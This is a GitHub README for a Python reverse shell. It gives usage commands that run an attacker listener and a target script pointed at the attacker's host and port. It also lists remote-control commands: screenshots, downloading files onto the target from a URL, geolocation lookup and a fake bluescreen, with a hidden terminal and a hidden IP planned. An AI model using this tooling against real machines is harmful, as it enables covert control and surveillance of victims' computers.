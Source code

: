 [![Python Ver.](https://img.shields.io/badge/python-%3E=_3.6-green.svg)](https://www.python.org/downloads/)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)

# Reverse Shell

Reverse shell implementation using Python.

<p align="center">
  <img src="./screenshot/reverse_shell_01.gif" with="600" height="339">
</p>

## Installation

**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/reverse_shell

# change the working directory to reverse shell
$ cd reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage

### 1. Listen for target

On attacker machine, run the `attacker.py` script.

```
python3 attacker.py [port]
```

### 2. Execute reverse shell

On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```

## Commands

```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```

## Features

### Implemented

* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented

* Packet encoder/decoder.

## TODOs
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
